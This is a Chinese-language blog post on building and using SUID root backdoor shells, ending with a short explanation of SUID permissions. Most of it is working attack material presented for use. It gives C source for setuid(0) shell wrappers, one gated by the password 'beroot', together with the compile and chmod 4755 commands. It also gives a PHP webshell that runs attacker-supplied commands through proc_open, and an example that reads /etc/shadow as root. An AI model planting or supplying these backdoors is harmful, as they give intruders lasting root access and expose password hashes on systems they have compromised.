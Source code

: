 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
suid shell 是可以以shell所有者权限运行的shell。 

### \#0x00 suid shell生成

suid shell简单代码：  
```c
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell  

### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
```php 
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
```  

访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

### \#0x02 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
``` 

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow  

### \#0x03 suid介绍

当s这个标志出现在文件所有者的x权限上时，此时就被称为Set UID，简程SUID。  
例如执行ls -l /bin/su可以看到   
![1](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/1.jpg?raw=true)  
执行ls -l /usr/bin/passwd 可以看到     
![2](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/2.jpg?raw=true)  
在文件所有者的x权限上都出现了s权限，那么这个特殊权限的特殊性的作用是什么呢？  
```
1、SUID权限仅对二进制程序有效。  
2、执行者对于该程序需要具有x的可执行权限。 
3、本权限仅在执行该程序的过程中有效。  
4、执行者将具有该程序拥有者的权限。  
``` 

SUID的关键作用体现在第四句，SUID的目的就是：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。  
### \#0x04 参考
[深入Linux文件权限 SUID/SGID/SBIT](https://blog.csdn.net/imkelt/article/details/53054309)  
文章中部分源代码在前辈代码的基础上略做修改，由于时间久远，现在已经不知道代码摘自何处，若作者看到，请速联系（联系方式见about标签）
